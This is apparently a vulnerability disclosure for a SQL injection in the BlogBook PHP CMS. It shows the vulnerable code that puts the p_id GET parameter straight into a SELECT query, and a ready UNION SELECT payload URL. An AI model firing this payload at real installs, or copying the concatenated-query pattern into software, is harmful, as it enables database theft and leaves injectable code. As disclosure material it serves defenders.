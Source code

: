# BlogBook /admin/posts.php edit_post p_id Parameter SQL Injection

**Exploit Title: BlogBook /admin/posts.php edit_post p_id Parameter SQL**

**Vendor Homepage: [chaitak-gorai/blogbook: Blogbook- Content Management System Project](https://github.com/chaitak-gorai/blogbook)**

**Software Link: [chaitak-gorai/blogbook: Blogbook- Content Management System Project](https://github.com/chaitak-gorai/blogbook)**

**Software: blogbook**

**Tested on: Windows,PHP 5.6.9 ,Apache 2.4.39 ,MySQL 8.0.12**

## Vulnerability Overview

A SQL injection vulnerability exists in the [edit_post.php] file of the BlogBook application. User-supplied input from the p_id GET parameter is directly concatenated into SQL query strings without adequate sanitization. This affects both an UPDATE query designed to increment post view counts and a SELECT query used to fetch post data for display. Consequently, an unauthenticated remote attacker can inject and execute arbitrary SQL commands, potentially leading to unauthorized data access, modification, or further compromise of the database.

## Vulnerability Point

`blogbook-main/admin/includes/edit_post.php:8`

## Vulnerable Parameter

`p_id`

## Vulnerable Code

```php
if(isset($_GET['p_id'])){
    $edit_post_id= $_GET['p_id'];
}


$query="SELECT * FROM posts WHERE post_id={$edit_post_id}";
                            $select_posts_by_id=mysqli_query($connection,$query);   
                            while($row=mysqli_fetch_assoc($select_posts_by_id)){
                               global $cat_id;
                                 $post_id=$row['post_id'];
                                 $post_author=$row['post_author'];
                                 $post_title=$row['post_title'];
                                 $post_category_id=$row['post_category_id'];
                                 $post_image=$row['post_image'];
                                 $post_tags=$row['post_tags'];
                                 $post_content=$row['post_content'];
                                 $post_comment_count=$row['post_comment_count'];
                                 $post_date=$row['post_date'];
                                 $post_status=$row['post_status'];
                            }
```
## Payload

`http://localhost/admin/posts.php?source=edit_post&p_id=-1%20UNION%20SELECT%20NULL,NULL,user(),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL%20--`

![add_post sqli](./assets/edit_post_sqli.png)
